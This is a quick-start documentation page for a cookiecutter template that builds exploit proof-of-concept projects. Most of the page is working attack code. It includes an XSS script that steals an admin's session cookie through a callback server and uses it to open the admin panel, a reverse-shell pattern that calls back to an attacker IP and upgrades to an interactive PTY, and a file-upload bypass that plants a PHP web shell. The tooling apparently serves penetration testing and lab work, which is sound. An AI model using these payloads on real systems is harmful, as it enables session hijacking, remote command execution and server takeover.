 Quick Start
===========

Build your first POC in 5 minutes.

Create a New POC Project
------------------------

.. code-block:: bash

   uvx cookiecutter https://github.com/kwkeefer/cookiecutter-poc

Answer the prompts (or press Enter for defaults).

Setup Environment
-----------------

.. code-block:: bash

   cd your_project_name
   make dev
   source .venv/bin/activate

Your First Exploit
-------------------

Edit ``src/your_project/exploit.py``:

.. code-block:: python

   """
   Simple XSS cookie stealer POC
   """
   import requests
   from your_project.utils.output import out
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string

   def main(target_url, lhost, lport):
       """Exploit XSS to steal admin cookie"""

       # Generate XSS payload
       payload = cookie_stealer(f"http://{lhost}:{lport}")
       out.info(f"Payload: {payload}")

       # Send payload to target
       out.status("Sending XSS payload...")
       requests.post(f"{target_url}/comment",
                    data={"content": payload})

       # Wait for admin to visit
       out.status("Waiting for callback...")
       cookie = get_cookie(timeout=60)

       if cookie:
           out.success(f"Cookie captured: {cookie}")

           # Parse and use it
           cookies = parse_cookie_string(cookie)
           r = requests.get(f"{target_url}/admin", cookies=cookies)

           if "Admin Panel" in r.text:
               out.success("Successfully accessed admin panel!")
           else:
               out.error("Cookie didn't grant admin access")
       else:
           out.error("No callback received")

   if __name__ == "__main__":
       import argparse
       parser = argparse.ArgumentParser()
       parser.add_argument("--target", default="http://target.local")
       parser.add_argument("--lhost", required=True)
       parser.add_argument("--lport", default=8000, type=int)
       args = parser.parse_args()

       main(args.target, args.lhost, args.lport)

Run Your Exploit
----------------

In one terminal, start the callback server:

.. code-block:: bash

   python -m your_project.servers.server

In another terminal, run your exploit:

.. code-block:: bash

   python src/your_project/exploit.py --lhost YOUR_IP --target http://victim.com

Common Patterns
---------------

**Colored Output**

.. code-block:: python

   from your_project.utils.output import out

   out.success("Vulnerability confirmed!")
   out.error("Connection failed")
   out.info("Starting exploit")
   out.warning("Using default credentials")
   out.debug("Response: 200 OK")

**Reverse Shell**

.. code-block:: python

   from your_project.utils.reverse_shells import python_oneliner
   from your_project.utils.shell_catcher import auto_shell

   # Generate shell payload
   cmd = python_oneliner("10.10.14.5", 4444)

   # Catch shell automatically
   with auto_shell(4444) as catcher:
       # Trigger RCE with your payload
       requests.get(f"{target}/rce?cmd={cmd}")

       # Interact with shell
       if catcher.shell_caught:
           catcher.stabilize()  # Upgrade to PTY
           catcher.interact()   # Full interactive shell!

**File Upload**

.. code-block:: python

   from your_project.utils.file_upload import FileUploader

   uploader = FileUploader(f"{target}/upload")
   result = uploader.upload_with_bypass(
       "shell.php",
       b"<?php system($_GET['cmd']); ?>",
       techniques=["double_extension", "null_byte"]
   )

Next Steps
----------

* Explore more :doc:`examples`
* Read :doc:`workflows` for end-to-end scenarios
* Browse the :doc:`api/index` for all available utilities
